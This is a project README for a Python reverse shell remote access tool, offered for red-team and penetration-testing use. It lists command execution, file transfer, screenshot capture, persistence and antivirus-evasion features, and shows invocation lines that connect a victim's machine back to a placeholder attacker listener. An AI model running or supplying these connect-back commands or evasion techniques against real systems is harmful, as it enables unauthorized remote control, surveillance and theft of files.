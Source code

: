 # 🕳️ Reverse Shell – Python Remote Access Tool (RAT)

## 📌 Project Overview

The **Reverse Shell** is a Python-based remote access utility crafted for ethical hacking, penetration testing, and red-team simulation. It allows an attacker (authorized tester) to **remotely execute system commands** on a target machine after establishing a **reverse TCP connection**.

Unlike bind shells, which require open ports on the target, reverse shells initiate the connection from the victim to the attacker's listener—**bypassing firewall restrictions and NAT** in many cases.

> ⚠️ **DISCLAIMER**: This tool is developed strictly for **educational purposes**, **red team simulations**, and **authorized penetration testing only**. Unauthorized use is illegal and unethical.

---

## 🧠 Key Features

- 📡 **Reverse TCP Connectivity** (client connects to server)
- 💻 **Command Execution** (run shell commands remotely)
- 📂 **File Upload/Download Support**
- 📸 **Take Picture/Screenshots**
- 🧠 **Gathers OS information**
- 🔒 **Customizable Port & Host Settings**
- 🧵 **Multithreaded Listener (optional enhancement)**

---

## 🛠️ Technology Stack

| Component   | Details                                                                            |
|-------------|------------------------------------------------------------------------------------|
| Language    | Python 3                                                                           |
| Libraries   | `socket`, `os`, `subprocess`, `threading`, `base64`, `json` (for structured comms) |
| OS Support  | Linux, Windows, macOS                                                              |
| Mode        | TCP socket-based                                                                   |

---

## 🧪 How It Works

### 1. Attacker starts the **listener (server)**
```bash
python3 server.py
# or with specific IP/Port
python3 server.py --host <your_ip> --port 4444
```

### 2.Victim executes the payload (reverse shell client)
```bash
This could be manually executed or delivered via a payload in a simulated scenario:
# both IP/Port should be same in server & client side
python3 client.py --host <attacker_ip> --port <attacker_port>
```
---
## 📂 File Transfer Support (Optional Enhancement)
Upload (send file to victim):
```bash
upload /path/to/local/file.txt
```
Download (retrieve file from victim):
```bash
download C:\\Users\\victim\\file.txt
```
---
## 🔐 Security Considerations
|Feature	               |  Details                                              |
|------------------------|-------------------------------------------------------|
|🔒 Encrypted payloads   |	Optionally encode payloads in base64 or AES          |
|🧅 Obfuscation    	     |  Use variable obfuscation or sleep intervals          |
|🔁 Persistence	       |  Optional: register to autorun on startup             |
|🔍 Evasion             |   Mimic legitimate system processes or rename script  |

These features should only be used in legal, ethical testing environments.

## 🚀 Setup Instructions
---
Install dependencies
Most scripts only require built-in libraries:
```bash
python3 --version
```
**Run attacker-side listener**
```bash
python3 listener.py
```
**Deploy or test reverse shell client**
```bash
python3 reverse_shell.py
```
---
## 🧠 Use Cases

- 🔴 **Red Team Operations**
- 🧪 **Penetration Testing Labs**
- 🎓 **Cybersecurity Training**
- 🧰 **Tool Development in Adversary Simulation**
- 📖 **Learning C2 (Command and Control) Concepts**

---

## 🚫 Legal & Ethical Use

- ❗ **This software is to be used only under the following circumstances:**
- You own the target machine
- You have explicit written permission to test the target
- You're operating in a controlled lab or CTF environment

Misuse of this software can lead to criminal prosecution. The author assumes no responsibility for any unauthorized or malicious use.

## 🛠️ Future Enhancements
- AES or RSA encrypted communication
- Polymorphic payload generator
- GUI shell controller (e.g., PyQT interface)
- Reverse HTTPS support
- Port to Go or Rust for AV evasion

## 🧾 License
**This project is licensed under the MIT License and intended for educational, ethical testing only.**

